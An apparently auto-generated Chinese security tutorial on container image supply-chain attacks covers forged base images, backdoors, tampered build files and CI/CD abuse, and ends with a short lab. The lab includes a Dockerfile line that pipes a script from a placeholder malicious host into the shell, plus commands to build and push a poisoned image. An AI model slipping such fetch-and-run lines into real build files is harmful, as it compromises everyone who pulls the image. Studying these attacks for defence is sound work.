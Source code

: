 # 容器镜像供应链攻击的攻击技术

在当今的云原生应用开发中，容器技术已经成为主流。容器镜像作为容器运行的基础，其安全性至关重要。然而，容器镜像供应链攻击成为一种新型的威胁，通过操纵容器镜像的构建过程，攻击者可以在应用部署和运行过程中引入恶意代码，危害整个系统的安全。

容器镜像供应链攻击的攻击手法多种多样，攻击者可以利用多个环节来实施攻击，例如在镜像构建、镜像存储、镜像传输等过程中植入恶意代码。下面将详细介绍容器镜像供应链攻击的常见攻击技术和利用方式。

## 技术原理解析

容器镜像供应链攻击的核心原理是操纵容器镜像的构建流程，以在构建过程中插入恶意代码或修改原有代码。攻击者通常利用以下技术手段实施攻击：

### 1. 伪造基础镜像

攻击者可以伪造一个看似正常的基础镜像，但实际上在其中插入恶意代码。当应用构建时使用这个被篡改的基础镜像，恶意代码就会被植入到最终的容器镜像中。

### 2. 植入后门

攻击者可以在镜像构建过程中，植入后门代码，以便在容器运行时远程控制容器，获取系统权限或窃取敏感信息。

### 3. 篡改构建文件

攻击者可以修改Dockerfile或其他构建文件，以在构建过程中下载恶意软件、库或脚本，从而实现攻击的目的。

### 4. 修改构建过程

攻击者可以修改构建流程中的构建脚本或构建工具，以在构建过程中执行恶意代码，例如在构建环境中执行恶意脚本或程序。

## 变种和高级利用技巧

容器镜像供应链攻击的变种和高级利用技巧不断涌现，攻击者不断寻找新的攻击路径和方法，以绕过安全防护机制。以下是一些常见的变种和高级利用技巧：

### 1. 多层次攻击

攻击者可以通过多层次的攻击，逐步植入恶意代码，增加攻击的隐蔽性和持久性。例如，攻击者可以先在基础镜像中植入后门，然后在应用镜像中再次植入恶意代码。

### 2. 利用CI/CD工具

攻击者可以利用CI/CD工具的漏洞或配置错误，操纵构建过程，从而实施容器镜像供应链攻击。攻击者可以修改CI/CD流程中的构建脚本或配置文件，以执行恶意代码。

### 3. 针对特定应用

攻击者可以针对特定应用进行攻击，了解应用的构建过程和依赖关系，有针对性地操纵容器镜像的构建过程，增加攻击成功的几率。

## 攻击步骤和实战演练

为了更好地理解容器镜像供应链攻击的攻击手法和利用方式，我们可以通过搭建实验环境来进行实战演练。下面是一个简单的攻击步骤和实验环境搭建指南：

### 环境准备

1. 安装Docker和Docker Compose
2. 准备一个基础镜像和一个应用镜像的构建文件，例如Dockerfile

### 攻击步骤

1. 伪造基础镜像：修改基础镜像的Dockerfile，插入恶意代码，并构建新的基础镜像。
   
   ```Dockerfile
   FROM ubuntu:latest
   RUN apt-get update && apt-get install -y curl
   RUN curl http://malicious.com/malware.sh | sh
   ```

2. 构建应用镜像：修改应用镜像的Dockerfile，使用伪造的基础镜像，以植入恶意代码。

   ```Dockerfile
   FROM malicious-base-image:latest
   COPY app.py /app.py
   CMD ["python", "/app.py"]
   ```

3. 构建应用镜像：构建应用镜像并推送到镜像仓库。

   ```bash
   docker build -t malicious-app-image .
   docker tag malicious-app-image username/malicious-app-image
   docker push username/malicious-app-image
   ```

4. 部署容器：在目标环境中拉取并运行恶意应用镜像。

   ```bash
   docker run -d username/malicious-app-image
   ```

通过以上步骤，我们可以模拟容器镜像供应链攻击的过程，操纵镜像构建流程，成功植入恶意代码并在目标环境中执行。这个实战演练可以帮助我们更深入地理解容器镜像供应链攻击的原理和实施方式。

总结：

容器镜像供应链攻击是一种新兴的威胁，攻击者通过操纵容器镜像的构建过程，实施恶意代码的植入。了解容器镜像供应链攻击的攻击技术和利用方式，可以帮助我们更好地保护容器化应用的安全。通过实战演练，我们可以加深对容器镜像供应链攻击的理解，并提高安全意识和应对能力。

---

*文档生成时间: 2025-03-13 22:10:15*
